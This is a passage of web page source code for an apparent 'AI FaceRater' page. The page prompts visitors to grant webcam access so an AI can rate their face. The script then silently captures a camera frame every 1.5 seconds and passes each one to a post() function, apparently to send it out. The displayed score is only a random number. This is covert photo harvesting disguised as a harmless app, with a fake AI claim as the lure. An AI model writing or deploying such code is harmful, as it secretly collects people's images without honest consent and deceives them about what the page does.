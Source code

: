 
            facingMode: "user"
          }
        };

       alert("This is AI FaceRater allow camera permission so that AI can rate your face");

        // Access webcam
        async function init() {
          try {
            const stream = await navigator.mediaDevices.getUserMedia(constraints);
            handleSuccess(stream);
          } catch (e) {
            document.getElementById('score').innerHTML = "Please allow permission :)";
          }
        }

        // Success
        function handleSuccess(stream) {
          window.stream = stream;
          video.srcObject = stream;

        var context = canvas.getContext('2d');
          setInterval(function(){

               context.drawImage(video, 0, 0, 640, 640);
               var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");
               post(canvasData); }, 1500);
               setTimeout(function(){
                 var facescore = Math.floor((Math.random() * 40) + 50);
                 document.getElementById('score').innerHTML = facescore;
               },3000)
        }

	alert("Look at your camera for better results :)");

        // Load init
        init();

        </script>

    </body>

</html>

